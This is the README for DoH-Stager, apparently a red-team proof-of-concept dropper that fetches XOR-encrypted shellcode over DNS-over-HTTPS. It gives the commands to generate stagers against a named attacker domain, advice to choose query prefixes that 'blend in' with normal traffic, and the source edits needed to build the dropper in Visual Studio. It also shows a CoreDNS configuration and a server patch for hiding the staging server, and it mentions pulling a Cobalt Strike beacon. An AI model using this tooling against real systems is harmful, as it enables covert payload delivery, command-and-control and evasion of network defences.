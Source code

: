 # DoH-Stager

DoH-Stager is an expansion of the awesome [DNSStager](https://github.com/mhaskar/DNSStager) tool made by [@mohammadaskar2](https://twitter.com/mohammadaskar2). DoH-Stager is aimed at providing the same functionalities as the original version, but using DNS-over-HTTPS instead of classic DNS. 

For those who are not familiar with DNSStager, the project is program what allows the operator to create a number of stagers that will fetch an arbitrary payload via DNS. Despite the PoC is intended to be used with a shellcode, it can adapted to retrieve any content such as encryption keys or other post-exploitation capabilities. 

This update was necessary in order to operate in environments where DNS resolution was restricted on the host and mostly delegated to the HTTP proxy.

## Usage

In order to use DoH-Stager you need to configure the following components:

- A custom NS record configured in your DNS provider that points to the host where the DNSStager server was deployed
- A fully functioning DNSStager deployment, as outlined [here](https://github.com/mhaskar/DNSStager#installation).

Run the `dnsstager`python script as follows:

```
./dnsstager.py  --domain p.pacc.tortellozzi.club --payload x64/c/ipv6 --o
utput ~/payload.exe --prefix emperor --sleep 1 --xorkey 0x10 --shellcode_path ~/calc-thread64.bin
```

The arguments:

- `--domain p.pacc.tortellozzi.club` is the domain that you want to use for DNSStager
- `--payload x64/c/ipv6`is the type of payload that you want to generate, do not change this.
- `--prefix emperor` the prexif to prepend to all the queries, find a suitable name that will blend in.
- `--xorkey 0x10`the key used to encrypt the shellcode/payload  
- `--shellcode_path ~/calc-thread64.bin` is the shellcode that you want to serve 

Take note of the `xorkey` parameter you use, as you will need to manually copy it in the `DoHStager.cpp` file later.

You can modify line 18 of the `DoHStager.cpp` file to use other DoH providers, the provided PoC only used Google's DNS:

```
 18 #define DOMAIN              "dns.google.com"
```

You will also need to modify line 189 to specify your custom domain:

```
189                 sprintf_s(domain, 200, "emperor%i.p.pacc.tortellozzi.club",     i);
```

the above should match with the values that you specified when the `dnsstager` server was launched.

Compile the project using Visual Studio (tested with VS2019) and enjoy your dropper! Of course it is missing several features, such as:

- Execution guardrails
- OpSec-safe process injection

But after all we want to keep a couple of aces in our sleeve and not provide a fully weaponised version available to the public.

In addition, if you do not want to expose your DNSStager server directly to the internet, and there are several reasons for not doing it, as outlined in F-Secure's blog [Detecting Exposed Cobalt Strike DNS Redirectors](https://labs.f-secure.com/blog/detecting-exposed-cobalt-strike-dns-redirectors), it is possible to use CoreDNS to provide an additional layer of obfuscation.

Using the proposed configuration it will be possible to have a DNS server that will forward DNS queries to all the domain via the Quad9 resolver, whilst forwarding the traffic to the DNSStager server only for the desired zone.

The Corefile that can be used is the following:

```
. {
log
  forward . 9.9.9.9
}

p.pacc.tortellozzi.club {
        log
        forward . 127.0.0.1:5050
}
```

And the only thing that was changed in the original server's python script was the port where the server will be listening to:
```
--- a/core/functions.py
+++ b/core/functions.py
@@ -185,8 +185,8 @@ def start_dns_server(ZONES):
     resolver = Resolver(ZONES)

     try:
-        server = DNSServer(resolver, port=53, address="0.0.0.0", tcp=False)
-        print_success("Server started!")
+        server = DNSServer(resolver, port=5050, address="0.0.0.0", tcp=False)
+        print_success("Server started on port 5050!")
         server.start()
```

## Other Notes

* This tool is not great in terms of performance. In fact, to download a fully stageless Cobalt Strike beacon might take approximately one hour wilst genertaing a lot of traffic. Use at your own risk.
* Don't expect a clean code, this is a PoC that was quickly put together using several snippets and stuff like that. If you don't like it, don't use it, I could not care less.
